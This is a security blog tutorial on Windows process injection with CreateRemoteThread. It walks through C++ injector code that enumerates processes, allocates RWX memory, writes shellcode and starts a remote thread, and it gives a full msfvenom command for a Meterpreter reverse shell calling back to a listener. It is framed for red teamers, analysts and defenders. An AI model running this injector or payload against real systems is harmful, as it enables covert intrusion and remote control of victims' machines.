





In this blog, we'll dive deep into classic process injection — the foundational malware technique that powers countless real-world attacks.

While CreateRemoteThread is one of Windows' legitimate APIs for thread management, attackers abuse it to inject shellcode into remote processes, achieving stealthy code execution within trusted applications like notepad.exe. We'll dissect a complete C implementation that spans process enumeration, memory manipulation, and remote thread hijacking — exactly how modern malware evades detection

Let's get started
## What is process injection**

Process injection remains one of the most prevalent techniques used by malware authors to evade detection. By executing malicious code within the context of legitimate processes, attackers gain stealth, privilege escalation, and persistence. This first installment explores the classic `CreateRemoteThread` injection technique - still widely used despite modern defenses.

In this blog, we'll dive deep into classic process injection — the foundational malware technique that powers countless real-world attacks. While `CreateRemoteThread` is one of Windows' legitimate APIs for thread management, attackers abuse it to inject shellcode into remote processes, achieving stealthy code execution within trusted applications like notepad.exe.

We'll dissect a complete C++ implementation that:

- Enumerates processes using `ToolHelp32Snapshot` to identify targets like notepad.exe

- Opens target process handles with full access using `OpenProcess(PROCESS_ALL_ACCESS)`

- Allocates executable memory in remote process space via `VirtualAllocEx with PAGE_EXECUTE_READWRITE` permissions

- Writes shellcode payload directly into the target process memory using `WriteProcessMemory`

- Creates and executes remote threads pointing to the injected shellcode as the thread entry point

The implementation includes practical features like process listing for target selection, comprehensive error handling, and clean resource cleanup. You'll see the exact console output from a successful injection, including allocated memory addresses and created thread IDs.

Perfect for red teamers building offensive tooling, malware analysts reverse engineering real-world samples, and defenders wanting to understand attacker methodology from the inside. Whether you're studying MITRE ATT&CK T1055 or just want hands-on experience with Windows internals, this guide walks through every API call, memory operation, and execution flow.

By the end, you'll understand why this technique persists and how modern EDR solutions detect it.

## Core Concepts

Let's break down the Windows magic your code uses before diving into the actual implementation. Think of this as the "how does this even work?" section.

- **Processes and Handles**: Every Windows app running (like notepad.exe) gets a unique ID called a PID. Your code uses OpenProcess() to get a "handle" - basically a magic key that lets you mess with that process's memory and threads. Without this handle, you're locked out completely.

- **Memory Tricks**: `VirtualAllocEx()` carves out a special chunk of memory inside the target process (not your injector). You ask for `PAGE_EXECUTE_READWRITE` permissions - meaning this memory can hold data, be read, written to, and executed as code. Then `WriteProcessMemory()` sneaks your shellcode into that spot. This is where antivirus starts raising eyebrows.

- **Thread Hijacking**: Here's the execution part. `CreateRemoteThreadEx()` tells the target process, "Hey, spawn a new thread... but start it at this suspicious memory address I just filled with shellcode." Boom - your code now runs inside notepad.exe with all its legitimate privileges.

- **What’s Shellcode?**: That giant hex string in your code? Pure machine instructions (x64 assembly) that don't care where they're loaded. Your sample creates a reverse shell - think Meterpreter connecting back to your listener, giving you a command shell in the compromised process.



## Generating Your Shellcode (The Real Payload)

Let's create the actual weapon that goes boom when injected. That giant hex blob in your code? It's a Meterpreter reverse shell generated with this exact command:

```bash
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c --var-name=shellcode
```

- `windows/x64/meterpreter/reverse_tcp` : Connect back to me at 10.0.2.15:4444
- `EXITFUNC=thread` : Clean exit when done
- `-f c` : Give me C array format
- `--var-name=shellcode` : Call the array 'shellcode'

## Windows Process Injection Using `CreateRemoteThread`

This program demonstrates a classic Windows process injection technique where shellcode is injected into a remote process and executed using a newly created thread. While often associated with malware, understanding this technique is essential for blue team detection, malware analysis, and EDR engineering.

### High-Level Overview

At a high level, the program performs the following steps:

1. Enumerates running processes
2. Locates a target process by name
3. Opens a handle to that process
4. Allocates executable memory inside the target process
5. Writes shellcode into that memory
6. Creates a remote thread to execute the shellcode
7. Waits for execution to complete and cleans up

This technique is commonly referred to as `Remote Process Injection via CreateRemoteThread`

#### Header Files and Global Variables

```cpp
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>
#include <string.h>
```

| Header       | Purpose                                    |
| ------------ | ------------------------------------------ |
| `windows.h`  | Core Win32 APIs (process, memory, threads) |
| `stdio.h`    | Console output                             |
| `tlhelp32.h` | Process enumeration APIs                   |
| `string.h`   | String comparison utilities                |

#### Status Prefixes

```cpp
const char* k = "[+]";
const char* i = "[*]";
const char* e = "[-]";
```
These are simple logging prefixes to visually distinguish:

- Success messages [+]
- Informational messages [*]
- Error messages [-]

#### Global State

```cpp
DWORD PID = 0, TID = 0;
LPVOID rBuffer = NULL;
HANDLE hProcess = NULL, hThread = NULL;
```
These variables store:

- Target Process ID
- Created Thread ID
- Pointer to remote memory
- Handles to the process and thread

#### Shellcode

```cpp
unsigned char shellcode[] = "...";
```

This is a raw x64 shellcode buffer embedded directly into the program. The shellcode content itself is not the focus here—the technique used to deploy it is. This is the same shellcode we have generated using `msfvenom`

#### Process Discovery: Finding the Target PID

`FindProcessByName()`: This function locates a running process by its executable name

How it works: 

1. Takes a snapshot of all running processes:
```cpp
CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
```
2. Iterates through each process using:
    - Process32First
    - Process32Next
3. Compares process names using `_stricmp` (case-insensitive)
4. Returns the PID when a match is found

Injection requires a valid PID. Hardcoding PIDs is unreliable, so enumeration is used instead.

#### Listing All Processes (Fallback UX)

```cpp
void ListAllProcesses()
```
If no process name is supplied, the program prints all running processes and exits.

This improves usability and avoids blind guessing.

#### Main Execution Flow

1. Argument Validation

```cpp
if (argc < 2)
```

If no process name is provided:
- Show usage
- List available processes
- Exit

2. Open a Handle to the Target Process

```cpp
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
```

This grants full access to the target process, including:

- Memory allocation
- Memory writing
- Thread creation

3. Allocate Memory in the Remote Process

```cpp
VirtualAllocEx(
    hProcess,
    NULL,
    sizeof(shellcode),
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
```
This allocates memory:
- Inside the remote process
- Large enough for the shellcode
- With RWX permissions

4. Writing Shellcode into memory

```cpp
WriteProcessMemory(
    hProcess,
    rBuffer,
    shellcode,
    sizeof(shellcode),
    NULL
);
```
This copies the shellcode buffer from the injector’s memory into the target process’s allocated memory region

At this point:
- The payload exists inside another process
- But has not yet executed

5. Execute via Remote Thread Creation

```cpp
CreateRemoteThreadEx(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)rBuffer,
    NULL,
    0,
    0,
    &TID
);
```
This is the execution trigger.

The new thread:

- Is created in the target process
- Starts execution at the shellcode address
- Runs independently of the injector

#### Synchronization and Cleanup

Waiting for execution

```cpp
WaitForSingleObject(hThread, INFINITE);
```
Ensures the injector:
- Waits until the payload finishes
- Avoids premature termination

#### Handle Cleanup

```cpp
CloseHandle(hThread);
CloseHandle(hProcess);
```

Good operational hygiene:
- Prevents handle leaks
- Reduces forensic artifacts

### Injection Technique Summary

| Step                   | API                        |
| ---------------------- | -------------------------- |
| Enumerate processes    | `CreateToolhelp32Snapshot` |
| Open target process    | `OpenProcess`              |
| Allocate remote memory | `VirtualAllocEx`           |
| Write payload          | `WriteProcessMemory`       |
| Execute payload        | `CreateRemoteThreadEx`     |

## Building and Testing

Lets try with the demo.

We will setup metasploit to listen for the connection



Let's move to windows vm and try the exe





We can see the injector has listed all the processes running on the system and we will use the `mspaint.exe` process



And now if we look in the metasploit we will get the shell


## Final Thoughts

Process injection via CreateRemoteThread may be one of the oldest tricks in the Windows malware playbook, but it remains a critical baseline technique to understand. Almost every modern injection variant—whether APC injection, thread hijacking, or section mapping—builds on the same fundamental ideas you explored here: handles, memory manipulation, and execution redirection.

For attackers, this technique offers a straightforward path to running code inside trusted processes. For defenders, it represents one of the clearest behavioral signals to detect: suspicious handle access, RWX memory allocation, cross-process memory writes, and remote thread creation.

If you can confidently explain why VirtualAllocEx + WriteProcessMemory + CreateRemoteThread is dangerous, you’re already ahead of many detection pipelines.

Note that the code will be available at my github - https://github.com/anish833/process-injection

## References & Further Reading

- **Microsoft Docs — CreateRemoteThread**  
  https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread

- **MITRE ATT&CK — T1055: Process Injection**  
  https://attack.mitre.org/techniques/T1055/

- **Red Canary — Process Injection Explained**  
  https://redcanary.com/threat-detection-report/techniques/process-injection/

- **YouTube — Windows Process Injection Explained**  
  https://youtu.be/aNEqC-U5tHM?si=AV_mL6ioWIEHaYpW

- **YouTube — CreateRemoteThread Injection Walkthrough**  
  https://youtu.be/A6EKDAKBXPs?si=EMr25X620PTF52_T


## Credits & Acknowledgements

Special credit to crr0ww
👉 https://www.youtube.com/@crr0ww

The conceptual explanation and walkthrough of the CreateRemoteThread injection technique were inspired by crr0ww’s excellent breakdown. The implementation in this blog includes modifications and enhancements to the original approach, such as improved process enumeration, error handling, and execution flow clarity for educational purposes.